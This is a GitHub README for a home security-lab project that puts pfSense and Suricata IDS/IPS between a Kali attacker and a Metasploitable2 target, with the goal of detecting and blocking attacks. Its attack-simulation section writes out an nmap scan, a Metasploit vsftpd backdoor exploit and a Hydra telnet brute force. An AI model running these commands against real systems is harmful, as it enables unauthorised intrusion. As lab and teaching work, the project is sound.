










# 🔐 pfSense + Suricata SOC Home Lab

### 🛡️ Intrusion Detection, Prevention & Attack Simulation

---

## 🚀 Project Description

Designed and implemented a SOC home lab using pfSense and Suricata IDS/IPS to detect, analyze, and prevent real-world cyber attacks including scanning, exploitation, and brute-force attacks.

---

## 🎯 Objectives

* Build a SOC lab using pfSense
* Configure Suricata IDS/IPS
* Simulate real-world attacks
* Analyze alerts and logs
* Implement prevention mechanisms

---

## 🌐 Network Topology

### 🖼️ Figure 1: SOC Lab Network Topology
Shows the overall lab setup including attacker, firewall, and target network.



---

## 🌐 Network Configuration

| Device          | Interface | IP Address    | Purpose                  |
| --------------- | --------- | ------------- | ------------------------ |
| pfSense         | WAN       | DHCP / NAT    | Internet Access          |
| pfSense         | LAN       | 192.168.10.1  | Attacker Network         |
| pfSense         | OPT1      | 192.168.20.1  | Target Network + IDS/IPS |
| Kali Linux      | eth0      | 192.168.10.5  | Attacker                 |
| Metasploitable2 | eth0      | 192.168.20.50 | Target                   |

---

### 🔌 Network Details

* **WAN Interface (pfSense):**

  * Connected to NAT / Internet
  * Provides external connectivity

* **LAN Interface (pfSense):**

  * Network: 192.168.10.0/24
  * Gateway: 192.168.10.1
  * Used by attacker (Kali Linux)

* **OPT1 Interface (pfSense):**

  * Network: 192.168.20.0/24
  * Gateway: 192.168.20.1
  * Connected to target system
  * Used for Suricata IDS/IPS monitoring

---

### 🔄 Traffic Flow

Kali (192.168.10.5) → pfSense (LAN) → pfSense (OPT1 + Suricata) → Target (192.168.20.50)

---

### 🛡️ Monitoring & Blocking

* Traffic inspected by **Suricata (OPT1)**
* Malicious traffic detected and blocked
* Firewall rules enforced by pfSense

---

## ⚙️ Tools Used

* pfSense Firewall
* Suricata IDS/IPS
* Kali Linux
* Metasploitable2
* Nmap
* Metasploit Framework
* Hydra

---

## 🔥 Methodology

1. Configured pfSense with WAN, LAN, and OPT1 interfaces
2. Routed traffic through pfSense
3. Performed network scanning using Nmap
4. Exploited FTP service using Metasploit
5. Blocked FTP port (21) using firewall rules
6. Installed and configured Suricata
7. Monitored alerts in Suricata dashboard
8. Enabled IPS inline mode
9. Simulated brute-force attack using Hydra
10. Detected and blocked attacker

---

## ⚔️ Attack Simulation

### 🔍 Port Scanning

```bash
nmap -sV 192.168.20.50
```

### 💣 Exploitation

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.20.50
run
```

### 🔐 Brute Force Attack

```bash
hydra -l msfadmin -P rockyou.txt telnet://192.168.20.50
```

---

## 🛡️ Defense Implementation

### 🚫 Firewall (pfSense)

* Blocked port 21 (FTP)
* Restricted attacker traffic

### 🚨 IDS (Suricata)

* Detected Nmap scans
* Generated alerts

### ⚡ IPS Mode

* Enabled inline mode
* Automatically blocked malicious traffic

---

## 📸 Screenshots

### ⚙️ Figure 1: pfSense Interface Configuration
Displays WAN, LAN, and OPT1 interface setup in pfSense.


---

### 🔍 Figure 2: Nmap Service Scan
Shows open ports and services detected on the target machine.


---

### 💣 Figure 3: Metasploit Exploitation
Demonstrates successful exploitation of vsftpd vulnerability with root access.


---

### 🚫 Figure 4: Firewall Rule Blocking FTP
pfSense firewall rule configured to block port 21 (FTP).


---

### 🔐 Figure 5: Port 21 Block Verification
Nmap scan confirms that FTP port is filtered after firewall rule.


---

### 🚨 Figure 6: Suricata Configuration
Shows Suricata IDS/IPS setup in inline mode on OPT1 interface.


---

### 📡 Figure 7: Scan Detection Alert
Suricata detects Nmap scanning activity and generates alerts.


---

### 🔑 Figure 8: Brute Force Attack
Hydra tool performing Telnet brute-force attack.


---

### ⚡ Figure 9: Attack Blocked by IPS
Suricata IPS blocks brute-force attack in real time.

---

## 📊 Results

* Detected reconnaissance attacks
* Identified exploitation attempts
* Blocked vulnerable services
* Generated IDS alerts
* Prevented brute-force attack using IPS

---

## 🧠 Key Concepts

* Network Segmentation
* IDS vs IPS
* Threat Detection
* Firewall Rules
* SOC Workflow

---

## 📂 Project Structure

pfsense-suricata-home-lab/                                                                                                              
├── README.md                                                                                                                         
├── INSTALLATION.md/                                                                                                                    
├── screenshots/                                                                                                                        
├── architecture/                                                                                                                       
├── report/           

---

## ⚙️ Installation Guide
👉 [View Full Installation Guide](INSTALLATION.md)

---

## 📄 Full Report
👉 [View Project Report](Report/soc-lab-pfsense-suricata.pdf)

---

## 👨‍💻 Author

Rakesh A R                                                                                                                              
Aspiring Cybersecurity Analyst                                                                                                          
https://www.linkedin.com/in/rakesh-a-r-595517288
